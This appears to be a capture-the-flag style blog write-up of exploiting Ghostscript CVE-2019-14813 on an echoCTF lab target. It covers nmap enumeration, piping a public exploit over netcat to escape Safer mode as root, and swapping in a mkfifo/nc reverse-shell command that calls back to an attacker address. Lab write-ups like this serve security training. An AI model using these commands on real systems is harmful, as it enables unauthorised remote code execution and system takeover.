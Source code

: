 ```yaml
---
layout: post
title: CVE-2019-14813 
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 18 May 2021
tags: [Lorem, Ipsum]
---
```





[CVE-2019-14813](https://echoctf.red/target/16)


A flaw was found in ghostscript, versions 9.x before 9.28, in the setsystemparams procedure where it did not properly secure its privileged calls, enabling scripts to bypass -dSAFER restrictions. A specially crafted PostScript file could disable security protection and then have access to the file system, or execute arbitrary commands.


References:

[CVE-2019-14813](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14813)

[Ghostscript FIX Commit](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=885444fcbe10dc42787ecb76686c8ee4dd33bf3)

[Ghostscript Bugzilla - Bug 700317](https://bugs.ghostscript.com/show_bug.cgi?id=700317)

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
PORT      STATE    SERVICE VERSION
12345/tcp open     netbus?
| fingerprint-strings:
|   Help:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in HELP
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 5
|   NULL:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|   OfficeScan:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in GET
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 4
|_    GS>GS>
42132/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?


```

### vulnerability

CVE-2019-14813


### Exploit 

using refrences and google:

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

let connect via telnet:

telnet 10.0.40.0  12345

```
telnet 10.0.40.0  12345 
                                                                       1 ⨯ 2 ⚙
Trying 10.0.40.0...
Connected to 10.0.40.0.
Escape character is '^]'.
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>


```

we connected to Ghostscript. 

### Rce

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

pasting all file content to terminal.

```
cat ghostrule3.ps | nc 10.0.40.0 12345                                                             2 ⚙
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>=============================================================================
=     Safer Mode Bypass by `.forceput` Exposure from `setsystemparams`      =
=============================================================================
GS>GS>[*] Obtaining .forceput operator from setsystemparams operator...
GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>GS>[+] A candidate for .forceput operator found!
GS>GS>[*] Attempting sanity check with the candidate for .forceput operator...
GS>GS<1>GS>GS>GS>GS>GS>[+] Successfully got .forceput operator!
GS>GS>[*] Overwriting several flags to escape from Safer Mode...
GS>GS>GS>GS>GS>GS>GS>GS>GS>[+] Successfully escaped from Safer Mode!
GS>GS>[*] Executing a shell command...
GS>root
GS>
```
as we can see, we can execute commadns, and got bonus, i can do it as root. 

so let get shell + and root.

### Privilege escalation

let replace the id to rev_shell script. 

```

(Executing a shell command...) info
(whoami) osexec print
quit

```

to 

```

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f) osexec print
quit
```

[generate shells](https://www.revshells.com/)

![](assets/img/p_sec_cve14813.png)
